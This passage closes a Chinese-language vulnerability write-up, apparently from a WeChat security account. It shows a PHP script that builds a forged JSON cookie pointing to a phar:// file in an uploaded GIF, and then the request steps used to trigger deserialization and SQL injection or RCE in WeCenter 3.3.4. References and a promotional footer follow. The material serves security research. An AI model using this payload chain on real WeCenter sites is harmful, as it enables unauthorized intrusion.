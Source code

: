 ![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9vcJ0AAlY5iaSI3yNdcJdRaEHITiadCwbxz3hPvWPrgCtmkgM8jvR0jMxxibKibtznspBeC62Nx8ho1w/640?wx_fmt=png)

编造 payload

```
<?php
$arr = array();
$arr['access_token'] = array('openid' => '1');
$arr['access_user'] = array();
$arr['access_user']['openid'] = 1;
$arr['access_user']['nickname'] = 'admin';
$arr['access_user']['headimgurl'] = 'phar://uploads/question/20210606/ca6820646810c27e025258594bb905ea.gif';
echo json_encode($arr);
?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9vcJ0AAlY5iaSI3yNdcJdRanZhun7cuRCrbzialX9NFJaTRspUjmWGMVJyp0vkOvfh1Kx1pprvuQ7w/640?wx_fmt=png)

带入 cookie, 并访问 app/m/weixin.php 下的 binding_action, 显示 "绑定微信成功"  

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9vcJ0AAlY5iaSI3yNdcJdRaFeajQjnLeXkRwQ3elib2P6cpurO3LviaMfKEVvEVGa9g8SkOmV9jjozA/640?wx_fmt=png)

最后访问 app/account/ajax.php 下的 synch_img_action, 注入成功  

**![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9vcJ0AAlY5iaSI3yNdcJdRaujiaZ3OWacUuyzun9bnaKfFsKvam3Sib6ibZQVjQCt6UMicf0g8m4wT4Jw/640?wx_fmt=png)**

**参考**

WeCenter3.3.4 前台 SQL 注入 & 任意文件删除 & RCE

某 Center v3.3.4 从前台反序列化任意 SQL 语句执行到前台 RCE

利用 phar 拓展 php 反序列化漏洞攻击面

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)

**推荐阅读：**

本月报名可以参加抽奖送暗夜精灵 6Pro 笔记本电脑的优惠活动

[![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibHHibNbEpsAMia19jkGuuz9tTIfiauo7fjdWicOTGhPibiat3Kt90m1icJc9VoX8KbdFsB6plzmBCTjGDibQ/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247496998&idx=1&sn=da047300e19463fc88fcd3e76fda4203&chksm=ec1ca019db6b290f06c736843c2713464a65e6b6dbeac9699abf0b0a34d5ef442de4654d8308&scene=21#wechat_redirect)

**点赞，转发，在看**

投稿作者：Buffer

![](https://mmbiz.qpic.cn/mmbiz_gif/Uq8QfeuvouibQiaEkicNSzLStibHWxDSDpKeBqxDe6QMdr7M5ld84NFX0Q5HoNEedaMZeibI6cKE55jiaLMf9APuY0pA/640?wx_fmt=gif)